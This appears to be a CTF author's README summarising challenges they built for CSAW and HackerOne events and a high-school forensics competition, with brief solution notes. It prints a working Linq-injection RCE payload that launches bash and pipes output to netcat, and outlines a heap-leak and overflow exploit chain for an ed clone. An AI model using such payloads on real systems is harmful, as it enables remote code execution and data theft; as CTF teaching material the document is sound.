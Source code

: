 # ctf_challenges

## CSAW CTF 2016 Finals

### [linq_to_the_present](https://github.com/osirislab/CSAW-CTF-2016-Finals/tree/master/Web/linq_to_the_present)

This was basically SQL Injection in Linq which, unfortunately, gives you RCE.

```
"".GetType().Assembly.GetType("System.AppDomain").GetMethods()[18].Invoke("".GetType().Assembly.GetType("System.AppDomain").GetProperty("CurrentDomain").GetValue(null), "System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089;System.Diagnostics.Process".Split(";".ToCharArray())).GetType().GetMethods()[80].Invoke(null, "bash;-c 'ls | nc 0 9001'".Split(";".ToCharArray()))
```

### [Ed, Edd, and Eddie](https://github.com/osirislab/CSAW-CTF-2016-Finals/tree/master/Pwn/Ed-Edd-Eddie)

An ed, [the standard editor](http://wiki.c2.com/?EdIsTheStandardTextEditor), clone but without the easy `!/bin/sh` shellcode.

This challenge did not require any memory corruption. The goal of this challenge was to make people understand how to use ed, heh.

1) Use ed commands to load the ed binary into ed and print it out
2) Join two lines so that the length becomes [out of sync](https://github.com/osirislab/CSAW-CTF-2016-Finals/blob/master/Pwn/Ed-Edd-Eddie/ed.c#L227)
3) Allocate some strings on the heap
4) Since the program thinks the size of the line is really big (as a result of a lot of subtractions being done to the line length), we can search for all ascii chars (0-255) using find and parse out the results to essentially leak the heap
5) From the heap leak, you can pull the filename which was randomly generated
6) Put payload file path on the heap
7) [Overflow the mark table](https://github.com/osirislab/CSAW-CTF-2016-Finals/blob/master/Pwn/Ed-Edd-Eddie/ed.c#L253) until you can change the `can_save` and `filename`.
8) Create a stripped down shared object with shellcode
9) Now that we know the name of the file, we can write our payload to it and load it to execute our shellcode

[ed.py](https://github.com/osirislab/CSAW-CTF-2016-Finals/blob/master/Pwn/Ed-Edd-Eddie/ed.py)

## CSAW CTF 2018 Quals

### [turtles](https://github.com/osirislab/CSAW-CTF-2018-Quals/tree/master/pwn/turtles)

Pretty straight forward ROP challenge with a slight twist of having to craft a fake obj-c dtable method lookup. You can check out the internals of obj-c for linux [here](https://github.com/gcc-mirror/gcc/tree/41d6b10e96a1de98e90a7c0378437c3255814b16/libobjc).

[turtles.py](https://github.com/osirislab/CSAW-CTF-2018-Quals/blob/master/pwn/turtles/turtles.py)

## HackerOne CTFs

A collection of CTFs that I made for HackerOne which are mobile focused, with a bit of web.

* h1-702-2017 - iOS (5 challenges) and Android (5 challenges) crackmes with incremental difficulty
* h1-202-2018 - A single app which calls into server components. I really liked making this one a lot since you had to progress through the challenge to solve it all. It was also my first time using Retrofit and I really wish I knew about it earlier lol
* h1-702-2018 - Five Android challenges: 3 crackmes and 2 pwnables (Object deserialization and memory corruption). It was really cool to have pwnable challenges for mobile, but operations wise it was a [complete failure](https://breadchris.github.io/ctf/android/2018/06/10/android-pwnable-ctf-challenges/). I plan on making this a lot better for the next time.

[h1-ctf-archives](https://github.com/Hacker0x01/h1-ctf-archives)

## MCPS HSFs

A CTF that I put on annually for a school county for high schoolers. It is a mock digial forensics investigation which has flags, but is not a jeapordy style CTF. You have to make your way through the evidence and write a report on your findings. Based on the flags that the teams found, you can do an initial filtering of all the competitors and identify the top finishers. Then, you will read through their reports and identify the teams which successfully solved the crime and found the most incriminating evidence. I started running this when the high school event I used to run, CSAW HSF, unfortunately became a mind numbing jeapordy style CTF. I love this format and have plans to operationalize it so that schools across the world can run their own version of it.

* [MCPS HSF 2016](https://github.com/breadchris/MCPS-HSF-2017)
* [MCPS HSF 2017](https://github.com/breadchris/MCPS-HSF-2017)
* [MCPS HSF 2018](https://github.com/breadchris/mcps-hsf-2018)


